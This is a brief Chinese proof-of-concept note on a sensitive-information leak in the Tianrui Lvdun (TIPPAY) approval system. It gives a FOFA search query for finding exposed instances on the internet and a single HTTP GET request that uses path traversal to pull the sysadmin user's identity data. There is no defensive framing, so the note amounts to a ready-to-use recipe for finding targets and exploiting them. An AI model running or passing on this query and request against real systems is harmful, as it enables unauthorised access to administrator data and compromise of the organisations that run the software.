 天锐绿盾审批系统 sysadmin 存在敏感信息泄露

fofa

app="TIPPAY-绿盾审批系统"

poc

GET /trwfe/service/../ws/identity/user/sysadmin HTTP/1.1